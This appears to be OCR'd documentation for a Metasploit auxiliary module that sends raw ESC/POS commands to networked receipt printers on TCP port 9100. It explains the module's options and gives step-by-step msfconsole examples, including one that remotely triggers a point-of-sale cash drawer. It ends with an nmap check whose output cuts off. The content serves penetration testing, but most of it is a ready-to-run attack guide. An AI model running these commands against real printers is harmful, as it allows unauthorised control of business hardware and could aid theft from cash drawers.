 Module Options and Configuration

The module's behavior can be tailored using the following options, which are integrated with the Metasploit Framework's data store.

RHOSTS: The IP address, range, or CIDR block of the network printer(s). This is the most critical option, as it specifies where the commands will be sent. The Msf::Exploit::Auxiliary::Scanner mixin handles the iteration over multiple targets.

Example: set RHOSTS 192.168.1.100-192.168.1.200

RPORT: The TCP port on which the printer's command interface is listening. The default port is 9100, which is the most common configuration for this type of device. The module's datastore defaults to this value.

MESSAGE: A string of text to be sent to the printer for output. This can be a simple message, or it can be a carefully crafted string containing embedded hex commands. The module will convert this string into a raw byte stream.

TRIGGER_DRAWER: A boolean option. When set to true, the module's payload construction logic will append the specific ESC/POS command for opening the cash drawer to the data being sent. This command is a hardcoded sequence of bytes that the printer's firmware understands.

Advanced Usage Scenarios

These examples provide a step-by-step guide on how to effectively use the module to achieve different objectives, with a focus on understanding the payload's content.

Example 1: Printing a Simple Message

To print a custom message, set the RHOSTS and MESSAGE options, then run the module. The module connects, sends the ASCII string, and disconnects.

msf6 > use auxiliary/scanner/printer/escpos_tcp_command_injector
msf6 auxiliary(scanner/printer/escpos_tcp_command_injector) > set RHOSTS 192.168.1.200
msf6 auxiliary(scanner/printer/escpos_tcp_command_injector) > set MESSAGE "Hello from Metasploit!"
msf6 auxiliary(scanner/printer/escpos_tcp_command_injector) > run


Example 2: Remote Cash Drawer Trigger

This scenario demonstrates the direct control this module can have over physical hardware. The module's code appends the specific drawer command to the payload.

msf6 > use auxiliary/scanner/printer/escpos_tcp_command_injector
msf6 auxiliary(scanner/printer/escpos_tcp_command_injector) > set RHOSTS 192.168.1.200
msf6 auxiliary(scanner/printer/escpos_tcp_command_injector) > set TRIGGER_DRAWER true
msf6 auxiliary(scanner/printer/escpos_tcp_command_injector) > run


Example 3: Verifying Printer Connectivity

Before running the module, you can use a simple port scanner like Nmap to confirm that the target printer's port 9100 is open and ready to accept connections. This step helps in troubleshooting.

msf6 > nmap -p 9100 192.168.1.200
Starting Nmap 7.92 ( https://nmap.org ) at 2025-08-21 08:08 CDT
Nmap scan report for 192.168.1.200
Host is up (0.002s latency).
